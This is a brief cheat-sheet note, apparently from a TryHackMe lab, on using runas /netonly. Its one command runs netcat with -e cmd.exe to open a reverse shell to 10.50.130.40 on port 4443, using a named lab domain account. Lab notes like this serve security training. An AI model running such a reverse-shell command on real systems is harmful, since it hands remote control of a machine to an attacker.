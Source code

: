 tags: #runas

Runas from a remote computer from cmd
```cmd
runas /netonly /user:za.tryhackme.com\t_leonard.summers "c:\tools\nc64.exe -e cmd.exe 10.50.130.40 4443"
```
